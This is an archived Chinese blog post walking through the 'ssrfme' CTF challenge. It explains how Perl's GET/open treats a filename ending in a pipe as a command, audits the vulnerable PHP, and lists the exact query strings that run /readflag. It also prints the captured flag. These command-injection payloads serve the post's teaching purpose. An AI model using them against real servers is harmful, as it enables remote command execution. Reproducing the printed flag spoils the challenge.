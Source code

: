 <!--yml
category: 未分类
date: 2022-04-26 14:41:44
-->

# i春秋CTF ssrfme (peal函数中get命令漏洞)命令执行 详细题解＋原理 学习过程_AAAAAAAAAAAA66的博客-CSDN博客

> 来源：[https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121972668](https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121972668)

前几天刚做一道命令执行的题目累的够呛，这会刷题又碰见一道，看了很多write up都不有不同的地方，而且这道题的环境和其他平台的环境也有点差异，有些wirte up 复现甚至做不出，最后自己独自去思考时，才发现了很多细节能改进。所以做个总结，梳理一下自己学到的各方面知识。避免大家踩一些不必要的坑，白白浪费时间。

**目录**

[题目](#%E9%A2%98%E7%9B%AE "题目")

[peal函数中get命令漏洞](#peal%E5%87%BD%E6%95%B0%E4%B8%ADget%E5%91%BD%E4%BB%A4%E6%BC%8F%E6%B4%9E "peal函数中get命令漏洞")

[分析](#%E5%88%86%E6%9E%90 "分析")

[重点](#%E9%87%8D%E7%82%B9 "重点")

[题解](#%E9%A2%98%E8%A7%A3 "题解")

[详细过程](#%E8%AF%A6%E7%BB%86%E8%BF%87%E7%A8%8B "详细过程")

[这道题的思考](#%E8%BF%99%E9%81%93%E9%A2%98%E7%9A%84%E6%80%9D%E8%80%83 "这道题的思考")

* * *

# 题目

![](img/fc496e7bced4cce69bae49298f936828.png)

![](img/865b58b3daa18bab095a70720bea15ca.png)

# peal函数中get命令漏洞

这里参考了一位博主的分析，是我查的write up中写的最详细的，当然用他做的这道题和我们平台上的不一样，但具有参考价值。

[关于BMZCTF hitcon_2017_ssrfme的解法_永远是少年-CSDN博客](https://blog.csdn.net/weixin_40228200/article/details/112481089 "关于BMZCTF hitcon_2017_ssrfme的解法_永远是少年-CSDN博客")

**关于这个漏洞，外国人有文章，是这样写的：
Perl saw that your “file” ended with a “pipe” (vertical
bar) character. So it interpreted the “file” as a command to be executed, and interpreted the command’s output as the “file”'s contents. The command is “who” (which prints information on currently logged-in users). If you execute that command, you will see that the output is exactly what the Perl program gave you.
翻译过来意思是：
perl函数看到要打开的文件名中如果以管道符（键盘上那个竖杠 |）结尾，就会中断原有打开文件操作，并且把这个文件名当作一个命令来执行，并且将命令的执行结果作为这个文件的内容写入。这个命令的执行权限是当前的登录者。如果你执行这个命令，你会看到perl程序运行的结果。**

所以我们可以在 url参数中传入 获取flag文件的命令，被执行后，将flag内容放在我们上传的文件里，我们再打开我们上传的文件就能见到flag了。

# 分析

```
<?php 
    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]); 
    @mkdir($sandbox); 
    @chdir($sandbox); 

    $data = shell_exec("GET " . escapeshellarg($_GET["url"])); 
    $info = pathinfo($_GET["filename"]); 
    $dir  = str_replace(".", "", basename($info["dirname"])); 
    @mkdir($dir); 
    @chdir($dir); 
    @file_put_contents(basename($info["basename"]), $data); 
    highlight_file(__FILE__); 
```

简单的审计一下代码

**$sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);**

获取用户的ip，并将 MD5后 orangeip的值作为文件夹名（这里ip要点自己的ip）

## 重点

**$data = shell_exec("GET " . escapeshellarg($_GET["url"]));**

get请求获取 url值，并使用escapeshellarg函数将输入的url转码，。之后**shell_exec**执行（命令执行）被**escapeshellarg转码后的url参数值， 并将命令执行的结果存入data中，在后面的代码中，会将data（也就是这次命令执行的结果）放入我们传入的文件夹中。**

其实到了这里，就可以使用反弹shell的方法来做了，

**escapeshellarg:**
(PHP 4 >= 4.0.3, PHP 5, PHP 7)
把字符串转码为可以在 shell 命令里使用的参数
string escapeshellarg ( string $arg )
escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。对于用户输入的部分参数就应该使用这个函数。shell 函数包含 exec(), system() 执行运算符
概述：
1.确保用户只传递一个参数给命令
2.用户不能指定更多的参数一个
3.用户不能执行不同的命令

**$info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);**

接下来get请求获取文件名，并使用str_replace过滤 .,  不允许通过../的方式改变文件传输的位置。如果filename有地址，则会把当前目录改变到filename绝对路径下。

**@file_put_contents(basename($info["basename"]), $data);**
最后，把data中的内容（url执行的值）传入到filename中。

# 题解

```
思路
1.先使用 ?url=/&filename=qqq 这里使用 /,作为参数url的值，/在linux里是返回上一级的语法，
这里是为了执行/,获得改服务器根目录。
2.然后 访问/sandbox/md5/qqq 得到文件目录
这里可以看到flag和readflag文件，flag在readflag里面 所以我们得执行readflag文件才能获得flag
构造以下语句
3.?url=&filename=bash -c /readflag| 创建一个文件夹 文件夹名为命令执行语句 内容为空（随便填，不影响）
4.?url=file:bash -c /readflag|&filename=321 通过命令执行，把执行完readflag获得的值存入到321文件
5.访问/sandbox/md5/321 获得flag 
```

# 详细过程

获取MD5值

百度 输入ip得到自己的ip值 ，比ipconfig快，哈哈。

![](img/a5e696d4fa6a3af1101bfd5d83e0ee56.png)

 然后百度搜索MD5加密

![](img/f80ada9d137cb38e7ffec2aa2b2928e0.png)

 得到MD5值

![](img/fb4213478a378a2f4e654e112aa668cc.png)

查看根目录

```
?url=/&filename=qqq
```

```
/sandbox/md5/qqq
```

![](img/d898ebbbefb407e039da26d12065f337.png)

![](img/e1f9e73cf5c0637d9233af7a3419eff9.png)

```
?url=&filename=bash -c /readflag|
```

```
?url=file:bash -c /readflag|&filename=321 
```

这里多了一个问号不要介意（不影响）

![](img/6621e7a0cf8cbd8d04cfb65c917696dd.png)

![](img/38c9428fa4309c313b8ff0405514b8ba.png)

得到flag

![](img/aba06c45fbb51559418091df3bd3b733.png)

```
flag{d9faf0e7-6152-48be-8c5c-479c9681bcf3}
```

# 这道题的思考

1.首先这道题url明显是能传参的，为什么不能在url里直接命令执行查看flag，为什么还要利用用GET中的open函数命令执行呢，我在一些write up中也看到了这样的解法（最后都尝试了，最多就获取到一个乱码的文件），都是同一道题，[hitcon 2017]ssrfme，直接传参到url命令执行获取flag。另外，如果每次一定要利用get函数的漏洞的话，那第一步没用利用|管道符，不照样命令执行成功了么。这里怀疑是i春秋网站对命令执行有这防范或者过滤？

2.既然存在命令执行，就可以通过反弹shell的方法获取flag，参考我最近刚写的一道题目，但可能也是因为i春秋网站，对某些命令的过滤导致没做出。（也可能是我菜，哈哈）这里放出我写的过程，欢迎大佬来指正🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻🙏🏻

[i春秋 死亡ping命令 原理学习（命令执行+shell反弹）+复现_AAAAAAAAAAAA66的博客-CSDN博客](https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121923964 "i春秋 死亡ping命令 原理学习（命令执行+shell反弹）+复现_AAAAAAAAAAAA66的博客-CSDN博客")

花2分钟找的封面

![](img/f49c3b7607bcddac58af520822816732.png)